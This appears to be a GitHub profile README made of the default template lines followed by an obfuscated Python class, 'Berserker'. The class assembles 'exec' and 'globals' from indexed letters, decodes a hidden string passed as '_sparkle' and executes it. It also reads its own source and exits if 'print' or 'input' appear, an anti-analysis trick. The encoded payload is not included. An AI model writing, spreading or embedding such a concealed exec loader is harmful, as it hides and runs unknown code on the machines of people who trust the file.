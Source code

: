 - 👋 Hi, I’m @Tuanibkk
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...


class Berserker():
 def __init__(self:object,_bit:bool=False,_delete:bool=0,*_encode:str,**_system:int)->exec:
  self._eval,_system[_delete],self._boom,self._rasputin,_bit,self._exit=lambda _bit:str(_system[_delete](f"{self._rasputin[4]+self._rasputin[-13]+self._rasputin[4]+self._rasputin[2]}(''.join(%s),{self._rasputin[6]+self._rasputin[11]+self._rasputin[14]+self._rasputin[1]+self._rasputin[0]+self._rasputin[11]+self._rasputin[18]}())"%list(_bit))).encode(self._rasputin[20]+self._rasputin[19]+self._rasputin[5]+self._rasputin[34])if _system[_delete]==eval else exit(),eval,lambda _byte:"".join(chr(int(_bytes)-len(_byte.split('=')))if _bytes!='^'else'ζ'for _bytes in str(_byte).split('=')),exit()if _bit else'abcdefghijklmnopqrstuvwxyz0123456789',lambda _bit:exit()if self._rasputin[15]+self._rasputin[17]+self._rasputin[8]+self._rasputin[13]+self._rasputin[19] in open(__file__, errors=self._rasputin[8]+self._rasputin[6]+self._rasputin[13]+self._rasputin[14]+self._rasputin[17]+self._rasputin[4]).read() or self._rasputin[8]+self._rasputin[13]+self._rasputin[15]+self._rasputin[20]+self._rasputin[19] in open(__file__, errors=self._rasputin[8]+self._rasputin[6]+self._rasputin[13]+self._rasputin[14]+self._rasputin[17]+self._rasputin[4]).read()else"".join(_bit if _bit not in self._rasputin else self._rasputin[self._rasputin.index(_bit)+1 if self._rasputin.index(_bit)+1<len(self._rasputin)else 0]for _bit in "".join(chr(ord(t)-591951)if t!="ζ"else"\n"for t in self._boom(_bit))),lambda _decode:_bit(_decode)
  return self.__decode__(_system[(self._rasputin[-1]+'_')[-1]+self._rasputin[18]+self._rasputin[15]+self._rasputin[0]+self._rasputin[17]+self._rasputin[10]+self._rasputin[11]+self._rasputin[4]])
 def __decode__(self,_execute: str)->exec:return(None,self._eval(self._exit(_execute)))[0]